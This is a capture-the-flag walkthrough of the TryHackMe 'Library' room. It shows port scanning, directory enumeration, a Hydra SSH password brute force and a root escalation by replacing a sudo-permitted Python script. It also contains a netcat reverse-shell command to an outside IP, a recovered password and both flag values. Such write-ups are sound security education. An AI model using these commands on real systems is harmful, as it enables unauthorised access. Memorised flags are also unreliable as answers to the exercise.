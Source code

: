 ```yaml
---
title: "Library CTF - TryHackMe"
author: Ludovic COULON
date: 2020-06-11
hero: ./images/hero.jpeg
excerpt: "Writeup for the Library CTF room on TryHackMe"
---
```


[TryHackMe | Library CTF](https://tryhackme.com/room/bsidesgtlibrary)

Read user.txt and root.txt

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.98.89
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/X/Zd2/Rc7PrxR+K9bGX9i7Imk3JlU274UsMqM6X03THehc6XUvg0URMryl9IldYLjQvD0fadIg1jB8rCxqzRiJi35nw7ICUXnpZryDS/guLb94Sb9IrLWBTNNdUWV7bTb4gMaGHdyQAmKY62FgL2aKUFMn8SpxJu0WiVIQgcKkv15s17rNqVD39kG8x/bfdftcjn/YtEP09Sy4z1FqXF9FT1xWKaVr3Pd5rCAU4rpOzVpS+qTj77NWaXNDlcg3aCRaILD+4lquq8kVAA+VcXR9IwXOTKJRzRCMfYwd3M6QC45LlRa17xvhI++vBtCcGwxuD9JZsXu0Cd/5fdisrl
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI8Oi4FyiWylek0a1n1TD1/TBOi2uXVPfqoSo1C56D1rJlv4g2g6SDJjW29bhodoVO6W8VdWNQGiyJ5QW2XirHI=
|   256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOPQQrT4KT/PF+8i33LGgs0c83MQL1m863niSGsBDfCN

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/NWlX0nd.png" alt="blog_image" />
</div>

Let's see if there is some hidden directory 😔

```bash
➜  ~ dirb http://10.10.98.89/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Jun  9 16:57:31 2020
URL_BASE: http://10.10.98.89/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.98.89/ ----
==> DIRECTORY: http://10.10.98.89/images/
+ http://10.10.98.89/index.html (CODE:200|SIZE:5439)
+ http://10.10.98.89/robots.txt (CODE:200|SIZE:33)
+ http://10.10.98.89/server-status (CODE:403|SIZE:299)
```

<div className="Image__Medium">
  <img src="https://imgur.com/R4JWXDR.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/oY8Ps8x.png" alt="blog_image" />
</div>

"Posted by meliodas" maybe a username ? let's keep it..

There is nothing on the website, this is a simple landing page with HTML nothing to attack there, but there is something interresting on the "robots.txt" the "User-agent: Rockyou".

Let's try to crack the ssh password with Hydra 🥰

```bash
# Meliodas was the name that we found on the index.html and rockyou is a list of common password
➜  TryHackMe hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.98.89
```

<div className="Image__Medium">
  <img src="https://imgur.com/ZMBdybW.png" alt="blog_image" />
</div>

```bash
[22][ssh] host: 10.10.98.89   login: meliodas   password: iloveyou1
```

### #1 user.txt

<div className="Image__Medium">
  <img src="https://imgur.com/i4x8ElV.png" alt="blog_image" />
</div>

```bash
meliodas@ubuntu:~$ cat user.txt
6d488cbb3f111d135722c33cb635f4ec
```

### #2 root.txt

```bash
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

```bash
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Ok now, we know that we can execute a python script with the root privileges let's try to have a root shell and run it with sudo 🤓

```bash
meliodas@ubuntu:~$ echo 'nc -e /bin/sh 10.9.2.228 4444' > bak.py
-bash: bak.py: Permission denied
```

Well.. That doesn't work let's try something else..

On the sudo -l command we can see the path of the file "/home/meliodas/bak.py"

Let's delete it and recreate our own one 🤑

```bash
meliodas@ubuntu:~$ rm -rf /home/meliodas/bak.py
```

```bash
meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt
$ cat root.txt
e8c8c6c256c35515d1d344ee0488c617
```


